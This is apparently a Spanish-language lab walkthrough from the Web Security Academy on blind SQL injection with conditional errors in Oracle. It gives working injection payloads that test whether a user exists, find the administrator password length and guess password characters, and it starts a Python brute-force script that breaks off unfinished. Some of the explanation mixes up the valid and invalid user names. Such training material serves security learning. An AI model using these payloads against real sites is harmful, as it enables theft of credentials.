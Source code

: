 ```mysql
'||(select case when (2=1) then to_char(1/0) else '' end from users where username='administrator')||';
```

Vera que `2=1` no es igual y hara `else ''` por lo que nos dara un `200 OK` a todo esto sabiendo que el usuario `administrator` es el correcto, por que de lo contrario pasaria lo siguiente...

```mysql
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrat')||';
```

Si lo dejamos en ese usuario que no existe cuando lo compruebe vera el servidor que no existe, por lo que no hara la siguiente comprobacion `select case when (1=1) then to_char[1/0] else '' end` y dentro de esta comprobacion da igual lo que cambiemos siempre reciviremos un `200 OK` por lo que poniendo el usuario bien y jugando con la logica de errores, podremos adivinar la contraseña...

Ahora adivinaremos la longitud de la contraseña, guiandonos por la practica anterior que tenia 20 caracteres, esta sera igual y lo comprobamos de la siguiente manera...

```mysql
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrat' and length(password)>=20)||';
```

Nos deberia de salir un error `500`, esto significa que lo estamos haciendo bien y que la contraseña si tiene 20 caracteres, ya que lo primero que comprueba es que esto se cumpla `from users where username='administrat' and length(password)>=20` para seguir haciendo lo demas `select case when (1=1) then to_char[1/0] else '' end`...

```mysql
'||(select case when substr(username,1,1)='a' then to_char(1/0) else '' end from users where username='administrat')||';
```

Ahora lo que estamos haciendo es hacer la comprobacion para saber si estamos llendo bien a la hora de adivinar la letra, en este caso, estamos haciendo que la primera inicial del username `administrator` es igual a la letra `a` en este caso si es cierto, por lo que nos tendria que devolver un error `500` y tenemos que utilizar `substr` para `Oracle` por que en otros seria `substring`...

Ahora sabiendo que eso funciona pondremos lo siguiente para que en nuestro script de `python` nos descubra la contarseña...

```mysql
'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||';
```

Ahora vamos a crear el script de `python3` recopilando un poco del anterior, quedaria de la siguiente manera...

Yo llame al script `SQLI_Conditional_Error.py`

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a0e00a00372e9a1808908f3003d00c7.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

```